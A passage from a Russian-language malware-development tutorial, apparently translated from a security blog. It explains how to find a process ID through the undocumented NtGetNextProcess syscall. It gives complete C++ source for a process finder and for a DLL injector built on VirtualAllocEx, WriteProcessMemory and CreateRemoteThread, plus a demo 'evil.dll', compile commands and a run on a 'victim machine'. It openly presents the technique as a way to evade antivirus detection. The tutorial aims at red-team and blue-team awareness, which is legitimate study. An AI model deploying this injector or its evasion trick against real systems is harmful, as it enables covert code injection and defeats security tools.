






\newpage
\subsection{43. трюк разработки вредоносного ПО. Поиск PID через NtGetNextProcess. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}      

Сегодня я хочу сосредоточить своё исследование на ещё одном трюке разработки вредоносного ПО: перечислении процессов и поиске PID через `NtGetNextProcess`. Это распространённая техника, которая также может использоваться вредоносным ПО для обхода антивирусных решений.     

### в чём трюк?

Мы просто используем дополнительные недокументированные функции. `NtGetNextProcess` - это системный вызов, предоставляемый ядром, который получает следующий процесс. Но что значит "следующий"? Если вы знакомы с внутренним устройством Windows, то знаете, что объекты процессов связаны между собой в огромном связанном списке ядра. Таким образом, этот системный вызов принимает дескриптор объекта процесса и находит следующий процесс в цепочке, к которому текущий пользователь имеет доступ.       

### практический пример

Всё довольно просто:      

```cpp
int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // получаем адрес функции
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // перебираем все процессы
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}
```

Эта функция сканирует все запущенные процессы в системе Windows и возвращает идентификатор процесса (PID), соответствующего переданному имени. Запускается цикл `while`, который продолжается, пока `myNtGetNextProcess` не вернёт ненулевое значение, указывающее на отсутствие других процессов. Дескриптор следующего процесса получается через `myNtGetNextProcess` и сохраняется в `current`. Для каждого процесса `GetProcessImageFileNameA` используется для получения имени исполняемого файла процесса и сохраняет его в `procName`. Если базовое имя `procName` (полученное с помощью `PathFindFileName`) совпадает с `procname` (сравнение выполняется без учёта регистра благодаря `lstrcmpiA`), то получаем идентификатор процесса `current`.      

Таким образом, полный исходный код выглядит следующим образом (`hack.cpp`):      


```cpp
/*
 * hack.cpp - find process ID by NtGetNextProcess. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);
  return 0;
}
```

### демонстрация

Давайте посмотрим этот трюк в действии.     

Компилируем (`hack.cpp`):      

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

{width="80%"}      

Затем просто запускаем его на машине жертвы (`Windows 10 22H2 x64` в моём случае):      

```powershell
.\hack.exe <process>
```

{width="80%"}      

Как можно заметить, всё сработало идеально, как и ожидалось :) =^..^=    

### практический пример 2. поиск и инъекция

Давайте рассмотрим другой пример с вредоносной логикой. Найдём идентификатор процесса по имени и внедрим в него DLL.      

Исходный код аналогичен моему [посту](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html). Единственное отличие - это логика функции `findMyProc` (`hack2.cpp`):       

```cpp
/*
 * hack2.cpp - find process ID
 * by NtGetNextProcess and
 * DLL inject. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/05/26/malware-tricks-30.html
*/
#include <windows.h>
#include <stdio.h>
#include <winternl.h>
#include <psapi.h>
#include <shlwapi.h>

#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "shlwapi.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

typedef NTSTATUS (NTAPI * fNtGetNextProcess)(
  _In_ HANDLE ProcessHandle,
  _In_ ACCESS_MASK DesiredAccess,
  _In_ ULONG HandleAttributes,
  _In_ ULONG Flags,
  _Out_ PHANDLE NewProcessHandle
);

int findMyProc(const char * procname) {
  int pid = 0;
  HANDLE current = NULL;
  char procName[MAX_PATH];

  // resolve function address
  fNtGetNextProcess myNtGetNextProcess = 
  (fNtGetNextProcess) GetProcAddress(GetModuleHandle("ntdll.dll"), "NtGetNextProcess");

  // loop through all processes
  while (!myNtGetNextProcess(current, MAXIMUM_ALLOWED, 0, 0, &current)) {
    GetProcessImageFileNameA(current, procName, MAX_PATH);
    if (lstrcmpiA(procname, PathFindFileName((LPCSTR) procName)) == 0) {
      pid = GetProcessId(current);
      break;
    }
  }

  return pid;
}

int main(int argc, char* argv[]) {
  int pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer
  pid = findMyProc(argv[1]);
  printf("%s%d\n", pid > 0 ? "process found at pid = " : 
  "process not found. pid = ", pid);

  HMODULE hKernel32 = GetModuleHandle("kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // open process
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
  if (ph == NULL) {
    printf("OpenProcess failed! exiting...\n");
    return -2;
  }

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT),
   PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, 
  NULL);
  CloseHandle(ph);

  return 0;
}
```

Как обычно, для простоты я создаю простую DLL с окном сообщений `meow from evil.dll!` (`evil.c`):

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### демонстрация 2

Давайте продемонстрируем нашу инъекцию.     

Компилируем:      

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -lpsapi -lshlwapi
```

{width="80%"}      

Запускаем для поиска и инъекции в `mspaint.exe`:       

```powershell
.\hack2.exe mspaint.exe
```

{width="80%"}     

{width="80%"}     

Как можно заметить, наш messagebox был внедрён в `mspaint.exe` с `PID = 2568`, как и ожидалось. Идеально! =^..^=     

Как я писал ранее, этот трюк можно использовать для обхода некоторых решений в области кибербезопасности, так как многие системы обнаруживают только известные функции, такие как `CreateToolhelp32Snapshot`, `Process32First`, `Process32Next`. По этой же причине этот метод может быть сложен для анализа многими исследователями вредоносного ПО.     

Я ещё не встречал этот трюк в реальных вредоносных программах и APT-атаках. Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[Find PID by name and inject to it. "Classic" implementation.](https://cocomelonc.github.io/pentest/2021/09/29/findmyprocess.html)       
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[Taking a Snapchot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)       
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-05-26-malware-tricks-30)           
